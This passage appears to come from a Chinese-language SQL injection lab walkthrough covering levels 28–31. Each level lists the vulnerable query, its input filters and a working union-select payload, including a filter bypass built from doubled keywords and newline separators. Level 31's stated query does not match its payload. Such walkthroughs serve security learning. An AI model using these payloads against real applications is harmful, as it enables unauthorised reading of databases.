 ### 28、过滤/* -- # 空格 union select（大小写） [ ' ]

```MYSQL
# SQL语句
SELECT * FROM users WHERE id=('$id') LIMIT 0,1;
# 过滤语句
$id= preg_replace('/[\/\*]/',"", $id);
$id= preg_replace('/[--]/',"", $id);
$id= preg_replace('/[#]/',"", $id);
$id= preg_replace('/[ +]/',"", $id);
$id= preg_replace('/[ +]/',"", $id);
$id= preg_replace('/union\s+select/i',"", $id);
# Payload
?id=0')ununion%0Aselection%0Aselect%0A1,database(),('3
```

### 29、联合查询 [ ' ]

```mysql
# SQL语句
SELECT * FROM users WHERE id='$id' LIMIT 0,1;
# 过滤语句
无
# Payload
?id=0'union select 1,2,database()--+
```

### 30、联合查询 [ " ]

```mysql
# SQL语句
$id = '"' .$id. '"';
SELECT * FROM users WHERE id=$id LIMIT 0,1;
# 过滤语句
无
# Payload
?id=0" union select 1,2,database()--+
```



## 四、其他

### 31、联合查询 [ ") ]

```mysql
# SQL语句
SELECT * FROM users WHERE id='$id' LIMIT 0,1;
# 过滤语句
无
# Payload
?id=0") union select 1,2,database()--+
```
